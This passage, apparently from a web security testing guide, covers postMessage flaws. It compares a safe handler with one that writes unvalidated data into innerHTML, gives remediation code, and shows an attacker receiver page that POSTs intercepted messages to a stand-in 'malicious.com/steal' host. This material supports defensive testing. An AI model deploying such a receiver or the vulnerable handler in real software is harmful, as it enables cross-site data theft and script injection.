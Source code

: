 **Example Secure Response**:
```javascript
// Sanitized data prevents execution
window.addEventListener('message', e => {
  if (typeof e.data === 'string' && /^[a-zA-Z0-9]+$/.test(e.data)) {
    document.getElementById('output').textContent = e.data;
  }
});
```
No script executed.

**Example Vulnerable Response**:
```javascript
// Unvalidated data executes script
window.addEventListener('message', e => {
  document.getElementById('output').innerHTML = e.data;
});
```
Alert box displays "xss".

**Remediation**:
- Validate message data:
  ```javascript
  if (typeof e.data === 'object' && e.data.command in allowedCommands) {
    processMessage(e.data);
  }
  ```
- Sanitize outputs:
  ```javascript
  document.getElementById('output').textContent = DOMPurify.sanitize(e.data);
  ```

**Tip**: Log injected payloads and receiver behavior in a report.

### 3. Test Wildcard Origin Handling

**Objective**: Ensure `postMessage` does not use wildcard (`*`) targets unsafely.

**Steps**:
1. Search for wildcard targets:
   - Look for `postMessage(data, '*')` in JavaScript.
2. Create a receiver page on a malicious domain:
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <script>
       window.addEventListener('message', e => {
         fetch('http://malicious.com/steal', { method: 'POST', body: e.data });
       });
     </script>
   </body>
   </html>
   ```
3. Host the receiver and load the target page in an iframe:
   - Check `malicious.com` logs for stolen data.
